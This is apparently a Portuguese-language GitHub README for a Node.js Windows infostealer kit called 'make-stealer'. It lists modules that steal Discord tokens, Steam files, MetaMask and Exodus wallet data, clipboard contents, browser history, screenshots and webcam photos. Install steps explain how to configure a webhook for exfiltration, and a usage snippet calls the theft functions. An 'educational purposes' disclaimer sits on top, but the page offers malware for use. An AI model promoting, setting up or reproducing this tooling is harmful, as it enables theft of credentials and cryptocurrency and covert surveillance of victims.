 # Stealers Modules 

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Node.js](https://img.shields.io/badge/Node.js-16+-green.svg)](https://nodejs.org/)
[![Platform](https://img.shields.io/badge/Platform-Windows-blue.svg)](https://www.microsoft.com/windows)

> **⚠️ DISCLAIMER IMPORTANTE**  
> Este repositório é **APENAS** para fins educacionais e de pesquisa em segurança.  
> O uso deste código para atividades maliciosas é **PROIBIDO** e de responsabilidade exclusiva do usuário.

---

## 📋 Sobre

Diversos módulos para implementação em Stealers. Desenvolvido para fins educacionais em segurança da informação e pentesting.

---

## 🚀 Features

- **Discord**: Coleta tokens e informações de autenticação
- **Steam**: Backup dos arquivos principais da Steam
- **MetaMask & Exodus**: Cópia de dados de carteiras cripto
- **Screenshot**: Captura de tela com envio para webhook
- **Webcam**: Captura de foto da webcam
- **Clipboard**: Captura todos os novos textos copiados pelo usuario e os antigos (caso tenha o win + v ativo)
- **Browser History**: Coleta histórico dos navegadores

---

## 📁 Estrutura

```
make-stealer/
├── index.js             # Arquivo principal
├── package.json         # Dependências
├── readme.MD            # Documentação
└── modulos/             # Módulos do sistema
    ├── clipboard.js     # Coleta clipboard
    ├── browser.js       # Coleta histórico dos navegadores
    ├── discord.js       # Coleta tokens Discord
    ├── steam.js         # Backup Steam
    ├── metamask.js      # Backup MetaMask
    ├── exodus.js        # Backup Exodus
    ├── screenshot.js    # Captura de tela
    └── webcam.js        # Captura webcam
```

---

## ⚙️ Requisitos

- **Sistema**: Windows 10/11
- **Node.js**: Versão 16 ou superior
- **NPM**: Gerenciador de pacotes

---

## 🛠️ Instalação

1. **Clone o repositório**:
   ```bash
   git clone https://github.com/npmstealer/make-stealer.git
   cd make-stealer
   ```

2. **Instale as dependências**:
   ```bash
   npm install
   ```

3. **Configure a webhook**:
   - edite o arquivo `index.js`
   - Substitua o 'webhook here' pela sua webhook

---

## 📦 Dependências

- `axios`: Requisições HTTP
- `screenshot-desktop`: Captura de tela
- `form-data`: Upload de arquivos

---

## 🚀 Como Usar

### Uso Básico
```bash
npm start
# ou
node index.js
```

### Uso dos módulos
```javascript
const { discordtokens } = require('./modulos/discord')
const { screenshot } = require('./modulos/screenshot')

discordtokens()

screenshot('print.png', 'webhook here')
```

---

## ⚖️ Responsabilidade Legal

- Este software é fornecido "como está"
- O uso é de responsabilidade exclusiva do usuário
- Respeite sempre as leis locais de privacidade e segurança
- Use apenas em ambientes autorizados e para fins educacionais

---

## 👤 Créditos

- **Desenvolvedor**: npmstealer
- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Versão**: 1.0.0

---

## 📞 Suporte

- **Discord**: [discord.gg/npm](https://discord.gg/npm)
- **Issues**: Use o GitHub Issues para bugs

---

> **⚠️ Lembre-se**: Use este software de forma responsável e ética. A segurança da informação deve sempre respeitar a privacidade e os direitos dos usuários.




